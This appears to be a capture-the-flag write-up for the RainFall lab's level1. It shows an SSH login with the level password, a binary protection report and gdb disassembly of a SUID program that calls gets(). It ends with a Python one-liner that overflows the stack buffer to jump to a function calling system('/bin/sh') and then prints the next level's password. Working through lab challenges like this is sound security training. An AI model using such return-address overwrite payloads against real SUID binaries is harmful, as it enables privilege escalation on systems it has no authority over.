 Login as level1

```shell
ssh -p 4242 level1@10.13.100.189
level1@10.13.100.189's password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
level1@RainFall:~$
```

a `SUID` exactable file is locates in the home directory

```shell
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

after inspecting the binary using gdb we fined the following

```gdb
(gdb) info functions
...
0x08048444  run
0x08048480  main
...
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```

the program allocates `80` bytes on the stack and passes a pointer to `gets` expecting to read `64` bytes

`gets` is a valuable function because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use

we will try to modify the value of the `eip` register stored in the stack and change it with the address of the `run` function

```shell
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" && cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

